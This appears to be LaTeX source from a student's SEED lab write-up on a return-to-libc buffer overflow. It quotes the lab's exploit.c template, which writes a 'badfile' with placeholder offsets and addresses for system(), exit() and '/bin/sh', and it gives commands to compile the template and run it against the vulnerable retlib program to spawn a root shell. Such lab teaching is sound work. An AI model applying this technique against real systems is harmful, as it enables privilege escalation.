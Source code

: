 \documentclass[14pt]{extarticle}
\begin{document}
\subsection{Exploiting the vulnerability}
To exploit this vulnerability, I need to create a file "badfile" that will be read by the vulnerable program on runtime. When this badfile is read into the vulnerable program it will execute a buffer overflow and spawn a root shell. I am given exploit code that looks as follows:
\begin{lstlisting}[language=c]
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char ** argv)
{
	char buf[40];
	FILE * badfile;
	badfile = fopen("./badfile", "w");
	/* You need to decide the addresses and
	   the values for X, Y, Z. The order of the following
		 three statements does not imply the order of X, Y, Z.
		 Actually, we intentionally scrambled the order.*/
	* (long *) &buf[X] = some address ;   //  "/bin/sh"
	* (long *) &buf[Y] = some address ;   //  system()
	* (long *) &buf[Z] = some address ;   //  exit()
	fwrite(buf, sizeof(buf), 1, badfile);
	fclose(badfile);
}
\end{lstlisting}\cite{seed-retlibc}\\
The given exploit code gives some unkowns, these are the location of X, Y, Z in the array buf, and the addresse that each should point to. I will need to determine where in the buf array I need to place X, Y, and Z along with what address each of those should receive. The goal is to have this program generate "badfile" for the vulnerable program to read. I need the vulnerable program to read the command system("/bin/sh") in order for it to return a root shell. The exploit code also lists a location for the exit() command, which is not necessarily needed, but will prevent the program from crashing after I return from the system call\cite{seed-retlibc}. When I am ready to compile my exploit code, I will run the following command:
\begin{lstlisting}[language=sh]
gcc -o exploit exploit.c
\end{lstlisting}
This will compile the code to make it executable. Now to generate the "badfile" I need to run the command:
\begin{lstlisting}[language=sh]
./exploit
\end{lstlisting}
This will execute my exploit code, creating the badfile. And finally, To run the attack, I need to execute the retlib.c program with the command:
\begin{lstlisting}[language=sh]
./retlib
\end{lstlisting}
\end{document}
